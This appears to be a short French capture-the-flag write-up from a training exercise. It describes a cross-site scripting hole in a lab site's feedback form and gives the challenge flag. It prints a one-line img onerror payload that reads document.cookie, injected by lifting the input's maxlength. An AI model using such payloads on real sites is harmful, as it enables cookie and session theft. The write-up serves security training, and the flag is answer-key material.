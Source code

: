 # XSS COMMENT

## Flag
```
0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E
```

## Découverte

Sur la page http://{IP_ADDRESS}/?page=feedback dans le formulaire de feedback \
on peut injecter un script en modifiant le maxlength du input txtName. Par \
example:
```
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
```

## Documentation
- [owasp - Cross-site_Scripting](https://wiki.owasp.org/index.php/Cross-site_Scripting_(XSS))

---

[RETURN](https://github.com/jlange91/darkly)
